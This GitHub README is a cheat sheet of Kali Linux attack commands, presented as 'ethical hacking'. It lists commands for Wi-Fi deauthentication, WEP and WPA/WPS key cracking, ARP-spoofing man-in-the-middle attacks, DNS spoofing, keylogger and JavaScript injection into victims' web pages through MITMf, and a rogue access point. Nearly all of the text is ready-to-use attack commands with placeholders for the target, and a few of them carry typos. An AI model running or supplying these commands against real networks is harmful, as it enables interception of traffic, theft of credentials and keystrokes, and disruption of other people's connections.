 # Useful Hacking and Penetration Testing Commands

Useful commands in Kali Linux for penetration testing and ethical hacking

## Basic Linux commands: Device information

View information about your own device. IP addresses, adapters connected, etc... 

```bash
ifconfig 
```
View information about wireless interfaces in your device

```bash
iwconfig
```
To change wireless adapter into monitor mode. Monitor mode allows us to sniff packets through the network

```bash
iwconfig wlan0 mode monitor
```

## Preconnection Attack: Airodump-ng

Discover wireless networks within range:
```bash
airodump-ng wlan0
```

To sniff packets in the selected network: 

```bash
airodump-ng --bssid _____ --channel _ --write _test_ wlan0 
```
bssid: mac address of target network
channel: channel of the network
write: if you want to store the packets in a file
wlan0: wireless adapter name

The test file will be available with the .cap file. 
View the .cap file in ```wireshark test.cap```

## Deauthentication Attack

Disconnect any client form any network

```bash
aireplay-ng --dauth <NumOfPackets> -a <NetworkMacaddress> -c <TargetClientMacAddress> -e <WifiNname> <iterface-wlan0>
```
## WEP Cracking

1. Capture a large number of packets with airodump-ng
```bash
airodump-ng --bssid _____ --channel _ --write _test_ wlan0 
```
2. Analyse the captured packets and crack the key with aircrack-ng
```bash
aircrack-ng .capfile
```
3. output: KEY IS FOUND
4. Remove the colons from the key and use it as password

## Fake Authentication Attack

```bash
aireplay-ng --fakeauth 0 -a <TargetMacAddress> -h <WirelessAdapterMacAddress> <interface>
```
**NOTE: Type "ifconfig" to view wireless adapter mac address (unspec ---> first 12 digits)**

This attack injects packets in the network.

## WPA/WPA2
If WPS is Enable:
1. Displays networks with WPS enabled
```bash 
wash --interface wlan0
```
2. 
```bash
aireplay-ng --fakeauth <30> -a <TargetMacAddress> --interface <wlan0>
```
3. Run Reaver in another terminal window
```bash
reaver --bssid <TargetMacAddress> --channel <TargetChannel> --interface <wlan0> -vvv --no-associate
```
**NOTE: if bug error, then download older version of reaver and run ./reaver _______ **

4. Results: WPS PIN and WPA PSK

If WPS is disable:
1. Capture Handshake between devices
```bash
airodump-ng --bssid <TargetMacAddress> --channel <Channel> --write <handshake> <wlan0>
```
- Wait for the handshake
- wait for a new client or disconnect a client with a fake auth attack. 
- WPA handshake stored in the file 

- Create a wordlist
```bash 
crunch [min][max][characters] -T[pattern] -o [FileName]
```
Example:
```bash
crunch 6 8 abc12 -o test.txt
```
2. Wordlist attack 
```bash
aircrack-ng <handshake.cap> -w <text.txt>
```

## Man In The Middle Attack (MITM)

1. Scan the network IP with `zenmap` 
Example: 192.168.1.1/24

2. To map IP addresses in the network and mac addresses `arp -a`
3. `arpspoof -i <interface> -t <clientIP> <gatewayIP>`
4. In another window. Tell the router I am the victim: `aprspoof -i <interface> -t <gatewayIP> <clientIP>`
5. In another window. Allow Linx be the router and forward packets: `echo 1 > /proc/sys/net/ipv4/ip_forward`

## Man in the Middle Framework (MITMf)

Download the tool `apt-get install mitmf`

```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface>
```
Use wireshark to sniff packets

## DNS Spoofing with MITMf
1. Start the web server: `service apache2 start` (var/www/html)
2. Configure the A records and add the domain you want to change into your IP address (*.___.com = <MyIPAddress>): 
`leafpad /etc/mitmf/mitmf.conf`
3. `mitmf --arp --spoof --gateway <routerIP> --target <targetIP> -i <interface> --dns`

## Capturing Screen of Target with MITMf
Takes screenshots of the target machine 
They are stored into ghe log directory `var/log/mitmf/
(--screenshotter)
```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --screen --interval <seconds>
```

## JS Keylogger with MITMf
Injects javascript key logger into a client's webpage
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --jskeylogger
```

## MITMf code injection
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-payload <"javascriptcode">
```
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-file </path/to/jsfile>
```

**NOTE: if working in real network:**
- Disconnect from virtual network --> Devices --> network --> uncheck (offline) 

## Creating Fake Access Point 
1. Download tool `apt-get intall manatoolkit`
2. `start-nat-simple.sh`
3. Edit the settings: `leafpad /etc/mana-toolkit/hostapd-mana.conf`
- Change interface = wlan0
- ssid = name of the fake network
4. Edit: `leafpad /usr/share/mana-toolkit/run-mana/start-nat/simple.sh`
- upstream = eth0
- phy = wlan0
5. start fake AP: `bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh`
6. Test it with phone or other machine, NOT host machine. 

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)